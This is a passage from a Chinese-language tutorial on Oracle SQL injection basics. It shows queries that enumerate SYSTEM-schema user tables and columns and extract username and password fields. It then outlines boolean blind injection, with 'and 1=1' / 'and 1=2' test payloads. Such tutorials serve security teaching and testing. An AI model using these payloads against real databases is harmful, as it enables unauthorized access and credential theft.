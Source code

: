 ```sql
```
![image.png](./Oracle 注入基础.assets/2023_05_19_10_40_47_95jIA801.png)
**获取当前SYSTEM数据库中表USER*表的字段 **
首先先查询当前SYSTEM数据库中的USER*表
```sql
select table_name from all_tables where owner='SYSTEM' and table_name like 'USER%'
```
![image.png](./Oracle 注入基础.assets/2023_05_19_10_40_47_XYwDNLBe.png)
```sql
select column_name from all_tab_columns where table_name ='USERS_KVHXKJ'
```
![image.png](./Oracle 注入基础.assets/2023_05_19_10_40_47_1hZpIy4N.png)
**获取值**
```sql
select USERNAME_ETSGGX,PASSWORD_OEDQBQ from USERS_KVHXKJ
```
![image.png](./Oracle 注入基础.assets/2023_05_19_10_40_47_ExwFXf4q.png)
## 盲注
### 布尔盲注
Oracle 布尔盲注和Mysql盲注一样，通过页面对带入数据库永真/假条件返回的内容差异，从而判断是否可以进行布尔盲注。通常页面返回存在/不存在两个结果，就可以判断是否存在布尔注入了
#### 布尔盲注流程
```basic
1. 判断注入点
2. 求解数据库 
	a. 判断用户/当前数据库长度
	b. 依次求解用户/当前数据库长度
3. 求当前数据库表
	a. 判断当前数据库表的个数
	b. 猜解第一个表的长度
	c. 猜解表的字符串/ascii码值
	d. 依次求解，直到找到所有的表
4. 求某表的列名
	a. 判断该表列名的个数
	b. 猜解第一个列名的长度
	c. 猜解第一个列名的字符串/ascii码值
	d. 依次求解，直到该表中找到所有的列名
5. 求某表的值
	a. 判断字段的个数
	b. 猜解第一个字段的长度
	c. 猜解第一个字段的字符串/ascii码值
	d. 依次求解，直到查询完表中所有的值
```
#### 布尔盲注判断注入点
**and 1=1 恒真**
```sql
select * from xxx_table where xxx='xxx' and 1=1--'
```
![image.png](./Oracle 注入基础.assets/2023_05_19_10_40_47_ib4HBlI8.png)
**and 1=2 恒假**
![image.png](./Oracle 注入基础.assets/2023_05_19_10_40_48_Voeziuwm.png)
利用这一特性，我们可以构造payload 通过来页面显示情况来获取数据库数据
#### 布尔盲注常用函数
